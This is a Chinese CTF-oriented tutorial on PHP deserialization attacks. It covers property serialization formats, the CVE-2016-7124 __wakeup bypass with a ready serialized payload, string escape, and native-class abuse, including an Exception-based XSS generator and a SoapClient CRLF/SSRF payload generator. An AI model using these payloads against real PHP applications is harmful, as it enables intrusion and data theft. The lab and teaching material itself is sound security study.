




# WEB攻防-PHP反序列化&原生类TIPS&字符串逃逸&CVE绕过漏洞&属性类型特征

\#PHP-属性类型-共有&私有&保护

1、对象变量属性：

public(公共的):在本类内部、外部类、子类都可以访问

protect(受保护的):只有本类或子类或父类中可以访问

private(私人的):只有本类内部可以使用

2、序列化数据显示：

public属性序列化的时候格式是正常成员名

private属性序列化的时候格式是%00类名%00成员名

protect属性序列化的时候格式是%00*%00成员名

 

<?php

header("Content-type: text/html; charset=utf-8");

//public private protected说明

class test{

  public $name="xiaodi";

  private $age="31";

  protected $sex="man";

}

$a=new test();

$a=serialize($a);

print_r($a);

?>

 

\#PHP-绕过漏洞-CVE&字符串逃逸

1、CVE-2016-7124（__wakeup绕过）

漏洞编号：CVE-2016-7124

影响版本：PHP 5<5.6.25; PHP 7<7.0.10

漏洞危害：如存在__wakeup方法，调用unserilize()方法前则先调用__wakeup方法，但序列化字符串中表示对象属性个数的值大于真实属性个数时会跳过__wakeup执行

 

Demo：见CVE.PHP与版本切换演示

 

案例：

[极客大挑战 2019]PHP

1、下载源码分析，触发flag条件

2、分析会触发调用__wakeup 强制username值

3、利用语言漏洞绕过 CVE-2016-7124

4、构造payload后 修改满足漏洞条件触发

Payload：

select=O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bs%3A3%3A%22100%22%3B%7D

 

2、字符串逃逸

字符变多-str1.php str1-pop.php

字符变少-str2.php str2-pop.php

案例——CTFSHOW-Web262（逃逸解法）

 

\#PHP-原生类Tips-获取&利用&配合

参考案例：https://www.anquanke.com/post/id/264823

-PHP有那些原生类-见脚本使用

-常见使用的原生类-见参考案例

-原生类该怎么使用-见官方说明

0、生成原生类

<?php

$classes = get_declared_classes();

foreach ($classes as $class) {

  $methods = get_class_methods($class);

  foreach ($methods as $method) {

​    if (in_array($method, array(

​      '__destruct',

​      '__toString',

​      '__wakeup',

​      '__call',

​      '__callStatic',

​      '__get',

​      '__set',

​      '__isset',

​      '__unset',

​      '__invoke',

​      '__set_state'

​    ))) {

​      print $class . '::' . $method . "\n";

​    }

  }

} 

 

1、本地Demo-xss

<?php

highlight_file(__file__);

$a = unserialize($_GET['k']);

echo $a;

?>

-输出对象可调用__toString

-无代码通过原生类Exception

-Exception使用查询编写利用

-通过访问触发输出产生XSS漏洞

<?php

$a=new Exception("");

echo urlencode(serialize($a));

?>

 

2、CTFSHOW-259

-不存在的方法触发__call

-无代码通过原生类SoapClient

-SoapClient使用查询编写利用

-通过访问本地Flag.php获取Flag

<?php

$ua="aaa\r\nX-Forwarded-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";

$client=new SoapClient(null,array('uri'=>'http://127.0.0.1/','location'=>'http://127.0.0.1/flag.php','user_agent'=>$ua));

echo urlencode(serialize($client));

?>